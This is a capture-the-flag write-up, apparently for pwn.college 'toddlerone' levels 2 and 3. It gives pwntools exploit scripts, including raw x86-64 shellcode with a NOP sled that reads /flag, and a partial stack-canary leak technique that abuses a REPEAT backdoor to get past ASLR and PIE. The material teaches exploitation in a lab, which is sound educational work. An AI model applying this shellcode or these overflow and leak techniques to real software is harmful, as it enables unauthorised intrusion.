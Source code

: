 RWX stack, no ASLR, no canary. Meh.

```python
from pwn import *
import os, sys
import struct

BINARY = '/challenge/toddlerone_level2.0'
elf = ELF(BINARY)

p = process(BINARY)
# p = gdb.debug(BINARY)

shellcode = b"\x90" * 0x500 + b"\x48\xBB\x2F\x66\x6C\x61\x67\x00\x00\x00\x53\x48\xC7\xC0\x02\x00\x00\x00\x48\x89\xE7\x48\xC7\xC6\x00\x00\x00\x00\x0F\x05\x48\xC7\xC7\x01\x00\x00\x00\x48\x89\xC6\x48\xC7\xC2\x00\x00\x00\x00\x49\xC7\xC2\xE8\x03\x00\x00\x48\xC7\xC0\x28\x00\x00\x00\x0F\x05\x48\xC7\xC0\x3C\x00\x00\x00\x0F\x05"
buf = struct.pack('<Q', 0x00007fffffffd500) * 0x18 + shellcode

p.sendline(str(len(buf)))
p.send(buf)

p.interactive()
```

## Challenge 3

RWX stack, canary and ASLR and PIE exists. \
In order to overcome this, REPEAT backdoor resides. 

The idea is simple - using the REPEAT, we would insert non-truncated buffer, giving us a leak primitive that we may use. We would like to leak some stack address, so we would know the address of our shellcode. 

We first have to leak the canary value, as we’ve done in the previous module. We’d just fill the buffer (including the LSB null byte of the canary) to non-null characters, and we got the canary. \
However, in order to leak the stack address we can just overwrite the canary, making sure we supply the REPEAT characters within the buffer. That way, the program calls another challenge function and never returns, hence doesn’t performs the stack canary check. 

```python
from pwn import *
import os, sys
import struct

BINARY = '/challenge/toddlerone_level3.0'
elf = ELF(BINARY)
GDB_SCRIPT= '''
b challenge
c

c
c
'''

p = process(BINARY)
# p = gdb.debug(BINARY, gdbscript=GDB_SCRIPT)

header = b'REPEAT'
padding = b'A' * (88 - len(header))

# Leak canary
buf_1 = header + padding + b'B'  # The LSB of the canary is always 0x00. Hence, we need to overwrite it in order to see the result. 
p.sendline(str(len(buf_1)))
p.send(buf_1)
```
